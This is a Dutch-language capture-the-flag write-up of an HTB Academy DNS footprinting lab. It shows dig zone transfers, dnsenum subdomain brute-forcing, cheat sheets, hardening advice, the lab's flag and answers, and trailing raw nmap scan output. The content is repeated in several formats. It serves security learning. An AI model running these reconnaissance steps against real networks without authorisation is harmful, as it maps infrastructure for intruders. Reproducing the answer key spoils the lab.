internal.inlanefreight.htb. 604800 IN   A       10.129.1.6
mail1.inlanefreight.htb. 604800 IN      A       10.129.18.201
ns.inlanefreight.htb.   604800  IN      A       127.0.0.1
```

**Commando voor internal zone:**
```bash
dig axfr internal.inlanefreight.htb @10.129.3.168
```

**Output (excerpt):**
```
internal.inlanefreight.htb. 604800 IN   TXT     "MS=ms97310371"
internal.inlanefreight.htb. 604800 IN   TXT     "HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}"
internal.inlanefreight.htb. 604800 IN   TXT     "atlassian-domain-verification=..."
dc1.internal.inlanefreight.htb. 604800 IN A     10.129.34.16
dc2.internal.inlanefreight.htb. 604800 IN A     10.129.34.11
mail1.internal.inlanefreight.htb. 604800 IN A   10.129.18.200
vpn.internal.inlanefreight.htb. 604800 IN A     10.129.1.6
ws1.internal.inlanefreight.htb. 604800 IN A     10.129.1.34
ws2.internal.inlanefreight.htb. 604800 IN A     10.129.1.35
wsus.internal.inlanefreight.htb. 604800 IN A    10.129.18.2
```

**✅ Antwoord:** `HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}`

---

### Question 3: IPv4 Adres van DC1
**Vraag:** What is the IPv4 address of the hostname DC1?

**Commando:**
```bash
dig axfr internal.inlanefreight.htb @10.129.3.168 | grep -i dc1
```

**Output:**
```
dc1.internal.inlanefreight.htb. 604800 IN A     10.129.34.16
```

**✅ Antwoord:** `10.129.34.16`

---

### Question 4: FQDN eindigend op .203
**Vraag:** What is the FQDN of the host where the last octet ends with "x.x.x.203"?

#### Stap 1: Lijst beschikbare shares
```bash
showmount -e 10.129.3.168
```

#### Stap 2: Zone transfers op hoofd-zones
```bash
# Hoofdzone
dig axfr inlanefreight.htb @10.129.3.168

# Internal zone
dig axfr internal.inlanefreight.htb @10.129.3.168

# Dev zone (FAILED - geen zone transfer mogelijk)
dig axfr dev.inlanefreight.htb @10.129.3.168
# Output: Transfer failed.
```

#### Stap 3: Subdomain Enumeration op dev.inlanefreight.htb
**Eerste poging - Grote wordlist:**
```bash
dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  inlanefreight.htb
```

**Gevonden subdomains:**
- ns.inlanefreight.htb → 127.0.0.1
- mail1.inlanefreight.htb → 10.129.18.201
- app.inlanefreight.htb → 10.129.18.15
- dev.inlanefreight.htb → (subdomain gevonden)

#### Stap 4: Brute-force dev.inlanefreight.htb met fierce-hostlist
**Zoek fierce-hostlist:**
```bash
find /usr/share -name "fierce-hostlist.txt" 2>/dev/null
# Output: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
```

**Finale commando:**
```bash
dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt \
  dev.inlanefreight.htb
```

**Output:**
```
dev1.dev.inlanefreight.htb.              604800   IN    A         10.12.3.6
ns.dev.inlanefreight.htb.                604800   IN    A         127.0.0.1
win2k.dev.inlanefreight.htb.             604800   IN    A        10.12.3.203
```

**✅ Antwoord:** `win2k.dev.inlanefreight.htb`

---

## 🔑 Belangrijke Lessen

### 1. Zone Hierarchy Begrijpen
DNS zones kunnen genest zijn:
- **Hoofdzone:** `inlanefreight.htb`
- **Subzones:** `internal.inlanefreight.htb`, `dev.inlanefreight.htb`
- **Sub-subdomains:** `win2k.dev.inlanefreight.htb`

### 2. Zone Transfer vs Brute-forcing
**Zone Transfer (AXFR):**
- Werkt alleen als de DNS server het toestaat
- Geeft alle records in één keer
- Gebruik: `dig axfr <zone> @<dns-server>`

**Brute-forcing:**
- Nodig wanneer zone transfer geblokkeerd is
- Vereist een goede wordlist
- Gebruik: `dnsenum` of `gobuster`

### 3. Hint Interpretatie
**Hint van HTB:** "A zone must have a SOA entry. There are DNS servers that allow zone transfer only from certain servers. Only such zones must be explored by brute force."

**Betekenis:**
- Probeer eerst zone transfer
- Als het faalt → brute-force die zone
- Verschillende wordlists kunnen verschillende resultaten geven

### 4. Wordlist Selectie
**Gebruikte wordlists:**
1. `/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt` - Voor brede enumeratie
2. `/usr/share/seclists/Discovery/DNS/fierce-hostlist.txt` - Voor gerichte Windows-hosts (win2k gevonden!)
3. `/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt` - Snellere alternatief

---

## 🛠️ Tools & Technieken

### dig (Domain Information Groper)
```bash
# NS record query
dig ns <domain> @<dns-server>

# Zone transfer
dig axfr <domain> @<dns-server>

# ANY query
dig any <domain> @<dns-server>

# Specifiek record type
dig A <domain> @<dns-server>
dig TXT <domain> @<dns-server>

# Short output (alleen antwoorden)
dig +short <domain> @<dns-server>
```

### dnsenum
```bash
# Basis syntax
dnsenum --dnsserver <IP> --enum -p 0 -s 0 -o <output> -f <wordlist> <domain>

# Parameters uitleg:
# --dnsserver: Target DNS server
# --enum: Volledige enumeratie mode
# -p 0: Geen Google scraping (pages)
# -s 0: Geen Google scraping (results)
# -o: Output file
# -f: Wordlist voor brute-force
# --threads: Aantal threads (optioneel)
```

### Alternative Tools
```bash
# gobuster (sneller voor brute-forcing)
gobuster dns --domain <domain> --resolver <dns-server> -w <wordlist>

# fierce
fierce --domain <domain> --dns-servers <server> --subdomain-file <wordlist>

# Manual bash loop
for sub in $(cat wordlist.txt); do
    dig +short $sub.<domain> @<dns-server>
done
```

---

## 📊 Gevonden Infrastructuur

### inlanefreight.htb Zone
| Hostname | IP | Type |
|----------|------------|------|
| ns.inlanefreight.htb | 127.0.0.1 | Nameserver |
| app.inlanefreight.htb | 10.129.18.15 | Application |
| dev.inlanefreight.htb | 10.12.0.1 | Development |
| mail1.inlanefreight.htb | 10.129.18.201 | Mail Server |
| internal.inlanefreight.htb | 10.129.1.6 | Internal Zone |

### internal.inlanefreight.htb Zone
| Hostname | IP | Type |
|----------|------------|------|
| dc1.internal.inlanefreight.htb | 10.129.34.16 | Domain Controller |
| dc2.internal.inlanefreight.htb | 10.129.34.11 | Domain Controller |
| mail1.internal.inlanefreight.htb | 10.129.18.200 | Mail Server |
| vpn.internal.inlanefreight.htb | 10.129.1.6 | VPN Server |
| ws1.internal.inlanefreight.htb | 10.129.1.34 | Workstation |
| ws2.internal.inlanefreight.htb | 10.129.1.35 | Workstation |
| wsus.internal.inlanefreight.htb | 10.129.18.2 | WSUS Server |

### dev.inlanefreight.htb Zone
| Hostname | IP | Type |
|----------|------------|------|
| ns.dev.inlanefreight.htb | 127.0.0.1 | Nameserver |
| mail1.dev.inlanefreight.htb | 10.129.18.200 | Mail Server |
| dev1.dev.inlanefreight.htb | 10.12.3.6 | Dev Machine |
| dev2.dev.inlanefreight.htb | 10.12.3.112 | Dev Machine |
| vpnx.dev.inlanefreight.htb | 10.12.1.254 | VPN |
| **win2k.dev.inlanefreight.htb** | **10.12.3.203** | **Windows 2000** |

---

## 🔍 Enumeration Workflow



---

## ⚠️ Common Pitfalls & Solutions

### Issue 1: Zone Transfer Fails
**Symptom:**
```
; Transfer failed.
```

**Oplossing:**
Zone transfer is geblokkeerd. Gebruik brute-forcing met dnsenum of gobuster.

### Issue 2: Wordlist Pad Incorrect
**Symptom:**
```
Error: make sure that the file /opt/useful/seclists/... exists
```

**Oplossing:**
```bash
# Zoek het juiste pad
find /usr/share -name "fierce-hostlist.txt" 2>/dev/null

# Of check case-sensitivity
ls /usr/share/seclists/  # kleine letters
ls /usr/share/SecLists/  # hoofdletters (vaak fout)
```

### Issue 3: Te Weinig Resultaten
**Symptom:**
Brute-forcing vindt slechts enkele subdomains.

**Oplossing:**
- Probeer verschillende wordlists
- Gebruik specifieke wordlists (bijv. fierce voor Windows)
- Verhoog threads: `--threads 90`

### Issue 4: DNS Timeouts
**Symptom:**
```
;; communications error to 10.129.3.168#53: timed out
```

**Oplossing:**
- Voeg pauzes toe tussen queries: `sleep 0.5`
- Verminder aantal threads
- Check VPN connectie

---

## 🎓 DNS Records Reference

| Record Type | Beschrijving | Voorbeeld |
|-------------|--------------|-----------|
| **A** | IPv4 adres | `example.com IN A 192.168.1.1` |
| **AAAA** | IPv6 adres | `example.com IN AAAA 2001:db8::1` |
| **NS** | Nameserver | `example.com IN NS ns1.example.com` |
| **MX** | Mail server | `example.com IN MX 10 mail.example.com` |
| **TXT** | Text record | `example.com IN TXT "v=spf1..."` |
| **CNAME** | Canonical name (alias) | `www IN CNAME example.com` |
| **PTR** | Reverse lookup | `1.1.168.192.in-addr.arpa IN PTR example.com` |
| **SOA** | Start of Authority | Zone metadata en serial number |

---

## 📝 Nuttige Commands Cheat Sheet

### Quick Enumeration
```bash
# Basis recon
dig ns <domain> @<dns-server>
dig axfr <domain> @<dns-server>

# Alle records
dig any <domain> @<dns-server>

# Specifieke lookups
dig A <subdomain>.<domain> @<dns-server>
dig TXT <domain> @<dns-server>

# Reverse lookup
dig -x <IP> @<dns-server>
```

### Brute-forcing
```bash
# dnsenum (aanbevolen)
dnsenum --dnsserver <IP> --enum -p 0 -s 0 \
  -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt \
  <domain>

# Bash one-liner
for sub in $(cat wordlist.txt); do 
    dig +short $sub.<domain> @<dns-server> | grep -v "^$"
done

# Met filtering op IP pattern
for sub in $(cat wordlist.txt); do
    result=$(dig +short $sub.<domain> @<dns-server>)
    if echo "$result" | grep -q "\.203$"; then
        echo "FOUND: $sub.<domain> -> $result"
    fi
done
```

### Zone Transfers op Meerdere Zones
```bash
# Test alle gevonden subdomains
for zone in inlanefreight.htb internal.inlanefreight.htb dev.inlanefreight.htb app.inlanefreight.htb; do
    echo "=== Testing $zone ==="
    dig axfr $zone @10.129.3.168
done
```

---

## 🔐 Security Implications

### Waarom Zone Transfers Gevaarlijk Zijn
1. **Information Disclosure:** Toont volledige infrastructuur
2. **Attack Surface Mapping:** Onthult alle hosts en services
3. **Reconnaissance:** Helpt aanvallers om targets te identificeren
4. **Internal Information Leakage:** TXT records kunnen gevoelige info bevatten

### Best Practices voor DNS Beveiliging
- Beperk zone transfers tot specifieke IP's
- Gebruik TSIG (Transaction Signatures) voor authenticatie
- Implementeer DNSSEC
- Verberg interne infrastructuur van externe DNS
- Split-horizon DNS voor internal/external zones
- Rate limiting op DNS queries

---

## 📚 Aanvullende Bronnen

### Wordlists Locaties (Kali Linux)
```
/usr/share/seclists/Discovery/DNS/
├── fierce-hostlist.txt (Windows-focused)
├── subdomains-top1million-5000.txt
├── subdomains-top1million-20000.txt
├── subdomains-top1million-110000.txt
├── bitquark-subdomains-top100000.txt
└── deepmagic.com-prefixes-top500.txt
```

### Handige Links
- **SecLists GitHub:** https://github.com/danielmiessler/SecLists
- **BIND9 Documentation:** https://bind9.readthedocs.io/
- **DNS RFC 1035:** https://www.ietf.org/rfc/rfc1035.txt
- **DNSenum GitHub:** https://github.com/fwaeytens/dnsenum

---

## ✅ Final Checklist

- [x] NS record gevonden (`ns.inlanefreight.htb`)
- [x] Zone transfer uitgevoerd op `inlanefreight.htb`
- [x] Zone transfer uitgevoerd op `internal.inlanefreight.htb`
- [x] TXT record met flag gevonden (`HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}`)
- [x] DC1 IP adres gevonden (`10.129.34.16`)
- [x] Subzone `dev.inlanefreight.htb` geïdentificeerd
- [x] Brute-force op `dev.inlanefreight.htb` uitgevoerd
- [x] .203 host gevonden (`win2k.dev.inlanefreight.htb`)

---

## 🎯 Key Takeaways

1. **Altijd meerdere zones checken** - DNS infrastructuren hebben vaak nested zones
2. **Zone transfer eerst proberen** - Het is de snelste manier om alle data te krijgen
3. **Als zone transfer faalt, brute-force** - Gebruik gerichte wordlists
4. **Verschillende wordlists geven verschillende resultaten** - Fierce vond win2k waar anderen het misten
5. **Recursief enumereren** - Elk gevonden subdomain kan zelf weer een zone zijn
6. **Let op hints** - De HTB hints waren cruciaal voor het vinden van de juiste aanpak

---

**Completion Date:** 22 januari 2026  
**Duration:** ~2 uur  
**Success Rate:** 4/4 vragen correct

---

## Tags
`#HTB` `#DNS` `#Enumeration` `#Footprinting` `#dnsenum` `#ZoneTransfer` `#SubdomainBruteforce` `#Networking`

DNS Enumeration - HTB Academy Footprinting Module

Target: 10.129.3.168 (ACADEMY-FOOT-NIX02)
Domain: inlanefreight.htb
Datum: 22 januari 2026
📋 Overzicht

Deze sessie betrof DNS enumeration waarbij we verschillende zones moesten identificeren, zone transfers uitvoeren, en subdomains brute-forcen om specifieke hosts te vinden.
🎯 Doelstellingen & Antwoorden
Question 1: FQDN van DNS server

Vraag: Interact with the target DNS using its IP address and enumerate the FQDN of it for the "inlanefreight.htb" domain.

Commando:
bash

dig ns inlanefreight.htb @10.129.3.168

Output:

;; ANSWER SECTION:
inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.

;; ADDITIONAL SECTION:
ns.inlanefreight.htb.   604800  IN      A       127.0.0.1

✅ Antwoord: ns.inlanefreight.htb
Question 2: TXT Record via Zone Transfer

Vraag: Identify if its possible to perform a zone transfer and submit the TXT record as the answer. (Format: HTB{...})

Commando:
bash

dig axfr inlanefreight.htb @10.129.3.168

Output (excerpt):

inlanefreight.htb.      604800  IN      TXT     "MS=ms97310371"
inlanefreight.htb.      604800  IN      TXT     "atlassian-domain-verification=t1rKCy68JFszSdCKVpw64A1QksWdXuYFUeSXKU"
inlanefreight.htb.      604800  IN      TXT     "v=spf1 include:mailgun.org..."
inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.
app.inlanefreight.htb.  604800  IN      A       10.129.18.15
dev.inlanefreight.htb.  604800  IN      A       10.12.0.1
internal.inlanefreight.htb. 604800 IN   A       10.129.1.6
mail1.inlanefreight.htb. 604800 IN      A       10.129.18.201
ns.inlanefreight.htb.   604800  IN      A       127.0.0.1

Commando voor internal zone:
bash

dig axfr internal.inlanefreight.htb @10.129.3.168

Output (excerpt):

internal.inlanefreight.htb. 604800 IN   TXT     "MS=ms97310371"
internal.inlanefreight.htb. 604800 IN   TXT     "HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}"
internal.inlanefreight.htb. 604800 IN   TXT     "atlassian-domain-verification=..."
dc1.internal.inlanefreight.htb. 604800 IN A     10.129.34.16
dc2.internal.inlanefreight.htb. 604800 IN A     10.129.34.11
mail1.internal.inlanefreight.htb. 604800 IN A   10.129.18.200
vpn.internal.inlanefreight.htb. 604800 IN A     10.129.1.6
ws1.internal.inlanefreight.htb. 604800 IN A     10.129.1.34
ws2.internal.inlanefreight.htb. 604800 IN A     10.129.1.35
wsus.internal.inlanefreight.htb. 604800 IN A    10.129.18.2

✅ Antwoord: HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}
Question 3: IPv4 Adres van DC1

Vraag: What is the IPv4 address of the hostname DC1?

Commando:
bash

dig axfr internal.inlanefreight.htb @10.129.3.168 | grep -i dc1

Output:

dc1.internal.inlanefreight.htb. 604800 IN A     10.129.34.16

✅ Antwoord: 10.129.34.16
Question 4: FQDN eindigend op .203

Vraag: What is the FQDN of the host where the last octet ends with "x.x.x.203"?
Stap 1: Lijst beschikbare shares
bash

showmount -e 10.129.3.168

Stap 2: Zone transfers op hoofd-zones
bash

# Hoofdzone
dig axfr inlanefreight.htb @10.129.3.168

# Internal zone
dig axfr internal.inlanefreight.htb @10.129.3.168

# Dev zone (FAILED - geen zone transfer mogelijk)
dig axfr dev.inlanefreight.htb @10.129.3.168
# Output: Transfer failed.

Stap 3: Subdomain Enumeration op dev.inlanefreight.htb

Eerste poging - Grote wordlist:
bash

dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  inlanefreight.htb

Gevonden subdomains:

    ns.inlanefreight.htb → 127.0.0.1
    mail1.inlanefreight.htb → 10.129.18.201
    app.inlanefreight.htb → 10.129.18.15
    dev.inlanefreight.htb → (subdomain gevonden)

Stap 4: Brute-force dev.inlanefreight.htb met fierce-hostlist

Zoek fierce-hostlist:
bash

find /usr/share -name "fierce-hostlist.txt" 2>/dev/null
# Output: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt

Finale commando:
bash

dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt \
  dev.inlanefreight.htb

Output:

dev1.dev.inlanefreight.htb.              604800   IN    A         10.12.3.6
ns.dev.inlanefreight.htb.                604800   IN    A         127.0.0.1
win2k.dev.inlanefreight.htb.             604800   IN    A        10.12.3.203

✅ Antwoord: win2k.dev.inlanefreight.htb
🔑 Belangrijke Lessen
1. Zone Hierarchy Begrijpen

DNS zones kunnen genest zijn:

    Hoofdzone: inlanefreight.htb
    Subzones: internal.inlanefreight.htb, dev.inlanefreight.htb
    Sub-subdomains: win2k.dev.inlanefreight.htb

2. Zone Transfer vs Brute-forcing

Zone Transfer (AXFR):

    Werkt alleen als de DNS server het toestaat
    Geeft alle records in één keer
    Gebruik: dig axfr <zone> @<dns-server>

Brute-forcing:

    Nodig wanneer zone transfer geblokkeerd is
    Vereist een goede wordlist
    Gebruik: dnsenum of gobuster

3. Hint Interpretatie

Hint van HTB: "A zone must have a SOA entry. There are DNS servers that allow zone transfer only from certain servers. Only such zones must be explored by brute force."

Betekenis:

    Probeer eerst zone transfer
    Als het faalt → brute-force die zone
    Verschillende wordlists kunnen verschillende resultaten geven

4. Wordlist Selectie

Gebruikte wordlists:

    /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt - Voor brede enumeratie
    /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt - Voor gerichte Windows-hosts (win2k gevonden!)
    /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt - Snellere alternatief

🛠️ Tools & Technieken
dig (Domain Information Groper)
bash

# NS record query
dig ns <domain> @<dns-server>

# Zone transfer
dig axfr <domain> @<dns-server>

# ANY query
dig any <domain> @<dns-server>

# Specifiek record type
dig A <domain> @<dns-server>
dig TXT <domain> @<dns-server>

# Short output (alleen antwoorden)
dig +short <domain> @<dns-server>

dnsenum
bash

# Basis syntax
dnsenum --dnsserver <IP> --enum -p 0 -s 0 -o <output> -f <wordlist> <domain>

# Parameters uitleg:
# --dnsserver: Target DNS server
# --enum: Volledige enumeratie mode
# -p 0: Geen Google scraping (pages)
# -s 0: Geen Google scraping (results)
# -o: Output file
# -f: Wordlist voor brute-force
# --threads: Aantal threads (optioneel)

Alternative Tools
bash

# gobuster (sneller voor brute-forcing)
gobuster dns --domain <domain> --resolver <dns-server> -w <wordlist>

# fierce
fierce --domain <domain> --dns-servers <server> --subdomain-file <wordlist>

# Manual bash loop
for sub in $(cat wordlist.txt); do
    dig +short $sub.<domain> @<dns-server>
done

📊 Gevonden Infrastructuur
inlanefreight.htb Zone
Hostname	IP	Type
ns.inlanefreight.htb	127.0.0.1	Nameserver
app.inlanefreight.htb	10.129.18.15	Application
dev.inlanefreight.htb	10.12.0.1	Development
mail1.inlanefreight.htb	10.129.18.201	Mail Server
internal.inlanefreight.htb	10.129.1.6	Internal Zone
internal.inlanefreight.htb Zone
Hostname	IP	Type
dc1.internal.inlanefreight.htb	10.129.34.16	Domain Controller
dc2.internal.inlanefreight.htb	10.129.34.11	Domain Controller
mail1.internal.inlanefreight.htb	10.129.18.200	Mail Server
vpn.internal.inlanefreight.htb	10.129.1.6	VPN Server
ws1.internal.inlanefreight.htb	10.129.1.34	Workstation
ws2.internal.inlanefreight.htb	10.129.1.35	Workstation
wsus.internal.inlanefreight.htb	10.129.18.2	WSUS Server
dev.inlanefreight.htb Zone
Hostname	IP	Type
ns.dev.inlanefreight.htb	127.0.0.1	Nameserver
mail1.dev.inlanefreight.htb	10.129.18.200	Mail Server
dev1.dev.inlanefreight.htb	10.12.3.6	Dev Machine
dev2.dev.inlanefreight.htb	10.12.3.112	Dev Machine
vpnx.dev.inlanefreight.htb	10.12.1.254	VPN
win2k.dev.inlanefreight.htb	10.12.3.203	Windows 2000
🔍 Enumeration Workflow
mermaid

graph TD
    A[Start: DNS Server 10.129.3.168] --> B[Query NS Record]
    B --> C[Try Zone Transfer AXFR]
    C --> D{Transfer Success?}
    D -->|Yes| E[Extract all records]
    D -->|No| F[Brute-force subdomains]
    E --> G[Find additional zones]
    G --> H[Repeat for each zone]
    F --> H
    H --> I[Check for nested subdomains]
    I --> J[Found all targets]

⚠️ Common Pitfalls & Solutions
Issue 1: Zone Transfer Fails

Symptom:

; Transfer failed.

Oplossing: Zone transfer is geblokkeerd. Gebruik brute-forcing met dnsenum of gobuster.
Issue 2: Wordlist Pad Incorrect

Symptom:

Error: make sure that the file /opt/useful/seclists/... exists

Oplossing:
bash

# Zoek het juiste pad
find /usr/share -name "fierce-hostlist.txt" 2>/dev/null

# Of check case-sensitivity
ls /usr/share/seclists/  # kleine letters
ls /usr/share/SecLists/  # hoofdletters (vaak fout)

Issue 3: Te Weinig Resultaten

Symptom: Brute-forcing vindt slechts enkele subdomains.

Oplossing:

    Probeer verschillende wordlists
    Gebruik specifieke wordlists (bijv. fierce voor Windows)
    Verhoog threads: --threads 90

Issue 4: DNS Timeouts

Symptom:

;; communications error to 10.129.3.168#53: timed out

Oplossing:

    Voeg pauzes toe tussen queries: sleep 0.5
    Verminder aantal threads
    Check VPN connectie

🎓 DNS Records Reference
Record Type	Beschrijving	Voorbeeld
A	IPv4 adres	example.com IN A 192.168.1.1
AAAA	IPv6 adres	example.com IN AAAA 2001:db8::1
NS	Nameserver	example.com IN NS ns1.example.com
MX	Mail server	example.com IN MX 10 mail.example.com
TXT	Text record	example.com IN TXT "v=spf1..."
CNAME	Canonical name (alias)	www IN CNAME example.com
PTR	Reverse lookup	1.1.168.192.in-addr.arpa IN PTR example.com
SOA	Start of Authority	Zone metadata en serial number
📝 Nuttige Commands Cheat Sheet
Quick Enumeration
bash

# Basis recon
dig ns <domain> @<dns-server>
dig axfr <domain> @<dns-server>

# Alle records
dig any <domain> @<dns-server>

# Specifieke lookups
dig A <subdomain>.<domain> @<dns-server>
dig TXT <domain> @<dns-server>

# Reverse lookup
dig -x <IP> @<dns-server>

Brute-forcing
bash

# dnsenum (aanbevolen)
dnsenum --dnsserver <IP> --enum -p 0 -s 0 \
  -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt \
  <domain>

# Bash one-liner
for sub in $(cat wordlist.txt); do 
    dig +short $sub.<domain> @<dns-server> | grep -v "^$"
done

# Met filtering op IP pattern
for sub in $(cat wordlist.txt); do
    result=$(dig +short $sub.<domain> @<dns-server>)
    if echo "$result" | grep -q "\.203$"; then
        echo "FOUND: $sub.<domain> -> $result"
    fi
done

Zone Transfers op Meerdere Zones
bash

# Test alle gevonden subdomains
for zone in inlanefreight.htb internal.inlanefreight.htb dev.inlanefreight.htb app.inlanefreight.htb; do
    echo "=== Testing $zone ==="
    dig axfr $zone @10.129.3.168
done

🔐 Security Implications
Waarom Zone Transfers Gevaarlijk Zijn

    Information Disclosure: Toont volledige infrastructuur
    Attack Surface Mapping: Onthult alle hosts en services
    Reconnaissance: Helpt aanvallers om targets te identificeren
    Internal Information Leakage: TXT records kunnen gevoelige info bevatten

Best Practices voor DNS Beveiliging

    Beperk zone transfers tot specifieke IP's
    Gebruik TSIG (Transaction Signatures) voor authenticatie
    Implementeer DNSSEC
    Verberg interne infrastructuur van externe DNS
    Split-horizon DNS voor internal/external zones
    Rate limiting op DNS queries

📚 Aanvullende Bronnen
Wordlists Locaties (Kali Linux)

/usr/share/seclists/Discovery/DNS/
├── fierce-hostlist.txt (Windows-focused)
├── subdomains-top1million-5000.txt
├── subdomains-top1million-20000.txt
├── subdomains-top1million-110000.txt
├── bitquark-subdomains-top100000.txt
└── deepmagic.com-prefixes-top500.txt

Handige Links

    SecLists GitHub: https://github.com/danielmiessler/SecLists
    BIND9 Documentation: https://bind9.readthedocs.io/
    DNS RFC 1035: https://www.ietf.org/rfc/rfc1035.txt
    DNSenum GitHub: https://github.com/fwaeytens/dnsenum

✅ Final Checklist

    NS record gevonden (ns.inlanefreight.htb)
    Zone transfer uitgevoerd op inlanefreight.htb
    Zone transfer uitgevoerd op internal.inlanefreight.htb
    TXT record met flag gevonden (HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34})
    DC1 IP adres gevonden (10.129.34.16)
    Subzone dev.inlanefreight.htb geïdentificeerd
    Brute-force op dev.inlanefreight.htb uitgevoerd
    .203 host gevonden (win2k.dev.inlanefreight.htb)

🎯 Key Takeaways

    Altijd meerdere zones checken - DNS infrastructuren hebben vaak nested zones
    Zone transfer eerst proberen - Het is de snelste manier om alle data te krijgen
    Als zone transfer faalt, brute-force - Gebruik gerichte wordlists
    Verschillende wordlists geven verschillende resultaten - Fierce vond win2k waar anderen het misten
    Recursief enumereren - Elk gevonden subdomain kan zelf weer een zone zijn
    Let op hints - De HTB hints waren cruciaal voor het vinden van de juiste aanpak

Completion Date: 22 januari 2026
Duration: ~2 uur
Success Rate: 4/4 vragen correct
Tags

#HTB #DNS #Enumeration #Footprinting #dnsenum #ZoneTransfer

## 🏆 HTB DNS Challenge - Complete Solution

**Target:** 10.129.3.168 (inlanefreight.htb)

### Question 1: FQDN of DNS server

bash

```bash
dig ns inlanefreight.htb @10.129.3.168
# Answer: ns.inlanefreight.htb
```

### Question 2: TXT record from zone transfer (HTB{...} format)

bash

```bash
dig axfr internal.inlanefreight.htb @10.129.3.168 | grep "HTB{"
# Answer: HTB{DN5_z0N3_7r4N5F3r_iskdufhcnlu34}
```

### Question 3: IPv4 address of DC1

bash

```bash
dig axfr internal.inlanefreight.htb @10.129.3.168 | grep -i dc1
# Answer: 10.129.34.16
```

### Question 4: FQDN ending with .203

bash

```bash
# Step 1: Zone transfer fails on dev
dig axfr dev.inlanefreight.htb @10.129.3.168
# Result: Transfer failed

# Step 2: Brute-force dev with fierce-hostlist
find /usr/share -name "fierce-hostlist.txt"
# Found: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt

# Step 3: Run dnsenum
dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 \
  -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt \
  dev.inlanefreight.htb

# Results:
# dev1.dev.inlanefreight.htb → 10.12.3.6
# win2k.dev.inlanefreight.htb → 10.12.3.203  ← FOUND!

# Answer: win2k.dev.inlanefreight.htb
```

---

**Key Lesson:** Different wordlists reveal different subdomains. The `fierce-hostlist.txt` wordlist is specifically good for Windows environments, which is why it found `win2k` when other lists failed!

┌──(kali㉿kali)-[~]
└─$ dnsenum --dnsserver 10.129.3.168 --enum -p 0 -s 0 -o subdomains.txt -f /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt dev.inlanefreight.htb
dnsenum VERSION:1.3.1


┌──(kali㉿kali)-[~]
└─$ nmap 10.129.4.76 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 05:40 -0500
Nmap scan report for 10.129.4.76
Host is up (0.071s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
110/tcp  open  pop3
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A -p 22,25,53,110,143,993,995,3306       
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 05:54 -0500
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.44 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A -p 22,25,53,110,143,993,995,3306 10.129.4.76
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 05:55 -0500
Nmap scan report for 10.129.4.76
Host is up (0.073s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
25/tcp   open  smtp
| fingerprint-strings: 
|   Hello: 
|     220 InFreight ESMTP v2.11
|_    Syntax: EHLO hostname
|_smtp-commands: mail1, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp  open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=dev.inlanefreight.htb/organizationName=InlaneFreight Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-11-08T23:10:05
|_Not valid after:  2295-08-23T23:10:05
|_pop3-capabilities: UIDL PIPELINING SASL TOP STLS CAPA RESP-CODES AUTH-RESP-CODE
143/tcp  open  imap     Dovecot imapd
|_imap-capabilities: IMAP4rev1 LITERAL+ STARTTLS more have IDLE OK SASL-IR ID listed capabilities LOGIN-REFERRALS Pre-login post-login ENABLE LOGINDISABLEDA0001
993/tcp  open  ssl/imap Dovecot imapd
